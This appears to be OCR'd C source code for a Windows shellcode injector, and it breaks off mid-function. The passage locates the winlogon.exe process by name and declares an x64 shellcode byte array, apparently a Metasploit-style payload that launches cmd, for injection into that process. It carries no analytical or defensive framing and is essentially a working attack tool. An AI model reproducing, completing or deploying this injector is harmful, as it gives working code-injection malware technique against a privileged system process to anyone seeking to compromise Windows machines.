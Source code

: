 ```c
// ConsoleApplication3.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <windows.h>
#include <stdio.h>
#include <TlHelp32.h>

DWORD getProcessId(WCHAR* str)
{
	HANDLE hProcessSnap;
	PROCESSENTRY32 pe32;
	DWORD PID;

	hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hProcessSnap == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	pe32.dwSize = sizeof(PROCESSENTRY32);
	if (!Process32First(hProcessSnap, &pe32))
	{
		CloseHandle(hProcessSnap);
		return 0;
	}

	do
	{
		if (!wcscmp(pe32.szExeFile, str))
		{
			PID = pe32.th32ProcessID;
			return PID;
		}
	} while (Process32Next(hProcessSnap, &pe32));
	return 0;
}

BOOL injectCode()
{
	void* pMem;
	WCHAR str[] = L"winlogon.exe";
	HANDLE hEx = NULL;
	CHAR shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
		"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
		"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
		"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
		"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
		"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
		"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
		"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
		"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
		"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
		"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
		"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
		"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
		"\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff"
		"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
		"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x6d\x64"
		"\x00";

	while (TRUE) {
```